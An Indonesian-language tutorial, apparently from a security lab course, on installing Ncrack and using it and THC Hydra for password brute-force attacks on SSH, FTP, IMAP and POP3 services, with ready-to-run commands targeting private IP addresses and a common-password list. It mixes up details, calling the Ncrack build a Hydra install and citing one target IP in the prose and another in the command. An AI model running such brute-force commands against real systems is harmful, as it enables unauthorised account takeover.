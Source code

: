 I NSTALASI NCRACK
----------------
- **Step 1**    : Download source code Ncrack
```
wget https://nmap.org/ncrack/dist/ncrack-0.5.tar.gz
```
- **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Hydra, ketik kode berikut di terminal:
```
tar -xzf ncrack-0.5.tar.gz
cd ncrack-0.5
./configure
make
su root
make install
```

SUPPORTED PLATFORMS
-------------------
- Semua platform UNIX (Linux, *bsd, Solaris, etc.)
- MacOS
- Windows dengan Cygwin (IPv4 and IPv6)
- Mobile systems based on Linux, MacOS or QNX (e.g. Android, iPhone, Blackberry 10, Zaurus, iPad)

CARA PENGGUNAAN
---------------
**Contoh**:
```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `10.151.36.98` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :
```
ncrack -p 22 --user root -P 500-worst-passwords.txt 10.151.254.180
```
![](/assets/ncrack-hydra/ncrack-berhasil.png)
KESIMPULAN
----------
Dengan uji coba yang telah dilakukan, Ncrack dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 90 detik, berarti proses serangan dengan Ncrack lebih cepat dari THC Hydra. Jika password tidak terdapat dalam file, maka serangan akan gagal.







